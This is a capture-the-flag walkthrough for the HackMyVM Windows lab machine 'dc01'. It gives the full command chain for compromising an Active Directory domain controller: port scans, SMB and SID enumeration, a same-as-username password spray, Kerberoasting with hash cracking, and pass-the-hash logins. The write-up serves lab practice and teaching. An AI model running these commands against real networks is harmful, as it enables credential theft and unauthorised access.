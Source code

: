 
![dc01](https://github.com/user-attachments/assets/a46c6940-1c1b-4d61-ac21-f18575faa46d)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Easy           | Windows   |

---






- I start with a scan of the open ports
  
  ```bash
  nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.4 -oG scan
  ```
  
  ![image1](https://github.com/user-attachments/assets/01591839-9dfc-4749-a741-fa93699b6c5b)


- I continue with a scan of the versions and technologies that are running on the open ports that we have found
  
  ```bash
  nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49671,49686 -sCV -Pn 10.0.2.4 -oN ports
  ```
  
  ![image2](https://github.com/user-attachments/assets/d0dd926a-70a1-42ae-aa94-4bb3cd93a3e7)

- I list the resources shared by smb
  
  ```bash
  smbmap -H 10.0.2.4 -u 'guest'
  ```
  
  ![image3](https://github.com/user-attachments/assets/b5c65a0c-2c4b-49ac-bfc4-5a9692a64a31)

- Seeing that I have read permissions on IPC$ I can list system users. When I have a list of potential users I run it through crackmapexec to validate them
  
  ```bash
  impacket-lookupsid SOUPEDECODE@10.0.2.4 -no-pass
	
  crackmapexec smb 10.0.2.4 -u users -p "" --shares --continue-on-success
  ```
  
  ![image4](https://github.com/user-attachments/assets/8e3b6c75-e838-4b79-86e3-f72e5ee2f601)
  
- I am trying to remove users that use the same password as your own user, I find user ybob317
  
  ```bash
  netexec  smb 10.0.2.4 -u users_potencial  -p users_potencial  --no-bruteforce --continue-on-success | grep -v "[-]"
  ```
  
  ![image4](https://github.com/user-attachments/assets/30d238c3-7bcc-4474-bddf-0a50efe57a8f)

- I list with the found credentials the smb resources, I can list new folders and inside them I find the first flag
  
  ```bash
  smbmap -H 10.0.2.4 -u 'ybob317' -p 'ybob317'
  ```
  
  ![image5](https://github.com/user-attachments/assets/0a430a08-f298-40ec-bf0f-e64aadc810ba)
  
- I check if this user has permissions to connect via RDP
  
  ```bash
  crackmapexec winrm 10.0.2.4 -u "ybob317" -p "ybob317"
  ```
  
  ![imagee](https://github.com/user-attachments/assets/de0a1453-46f0-4a40-b7bc-f7a7be36c91c)

- I try to get user hashes through an ASREPRoast, without providing credentials I get nothing but using ybob317's credential I manage to dumpe several hashes
- I notice that I get an error due to a time difference between the machine and my computer, I adjust it with ntpdate
  
  ```bash
  ntpdate 10.0.2.4
  impacket-GetUserSPNs -request -dc-ip 10.0.2.4 SOUPEDECODE.LOCAL/ybob317:ybob317 -outputfile hashes.kerberoast
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
  ```
  
  ![image6](https://github.com/user-attachments/assets/4afc969a-ffe7-42cd-bda7-ec9c5047b166)

- With these new credentials I can view the contents of a new folder and I get a file containing hashes of several users
  
  ![image7](https://github.com/user-attachments/assets/3b740547-a8e6-49b2-8a29-52d5ba7170e4)
  ![image8](https://github.com/user-attachments/assets/595e146b-0a3c-4645-ae4c-216842db5944)


- I check if the hashes found belong to any user and I can do pass-the-hash (PtH). I find a user with whom I can do this attack and when I put Pwn3d! it tells me that I can connect to the machine
- When I log in I see that I have enough permissions to read the second flag
  
  ```bash
  netexec smb 10.0.2.4 -u a -p hahses --continue-on-success 
  ```
  
  ![image9](https://github.com/user-attachments/assets/01d650e3-4183-46b4-8bba-f5369a7222dd)

  ![image10](https://github.com/user-attachments/assets/1046945d-3cf9-47f5-8f4c-a3654203363e)






